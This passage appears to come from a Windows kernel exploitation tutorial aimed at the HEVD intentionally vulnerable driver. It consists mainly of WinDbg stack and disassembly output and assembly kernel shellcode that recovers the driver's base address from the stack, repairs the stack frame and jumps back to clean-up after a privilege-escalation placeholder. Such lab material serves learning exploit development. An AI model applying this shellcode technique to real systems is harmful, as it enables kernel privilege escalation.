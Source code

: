```
r14=ffffaf85a6903000 r15=ffffaf85a6903000
iopl=0         nv up ei pl nz na pe nc
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00040202
ffffaf85`a6903000 cc              int     3
5: kd> dq rsp La
ffffe98b`8a5b7750  ffffaf85`a6903000 00000000`c00000bb
ffffe98b`8a5b7760  00000000`0000004d 00000000`00040280
ffffe98b`8a5b7770  ffffe98b`8a5b7780 fffff804`2021524f
ffffe98b`8a5b7780  00000000`00000010 00000000`00040344
ffffe98b`8a5b7790  fffff804`202182f0 00000000`00222003
```

Good, the address of `Irp` is now stored in `rbp`, and the stack only points 0x30 bytes above the original location.
Besides, there is an address on the stack at address `rsp + 0x40` which we can use to locate the module, and resolve module addresses from there:

```
5: kd> u fffff804`202182f0
HEVD+0x882f0:
fffff804`202182f0 2a2a            sub     ch,byte ptr [rdx]
fffff804`202182f2 2a2a            sub     ch,byte ptr [rdx]
fffff804`202182f4 2a2a            sub     ch,byte ptr [rdx]
fffff804`202182f6 204845          and     byte ptr [rax+45h],cl
fffff804`202182f9 56              push    rsi
fffff804`202182fa 445f            pop     rdi
fffff804`202182fc 49              ???
fffff804`202182fd 4f              ???
```
So if we update the shellcode to include:

```Assembly
kernel_shellcode PROC
	int 3
	
	; Set up an ordinary stack frame
	push rbp
	mov rbp, rsp
	sub rsp, 20h
	
	; [priv. esc. will happen here]

	; set status code
	xor esi, esi

	; null out rax, just in case
	xor eax, eax

	; restore old rbp
	leave

	; calculate address of return address
	mov rcx, [rsp + 40h]
	sub rcx, 882f0h
	lea rcx, [rcx + 85717h]
	; skip previous stack frame
	lea rsp, [rsp + 30h]

	; jump to clean-up
	jmp rcx
kernel_shellcode ENDP
```
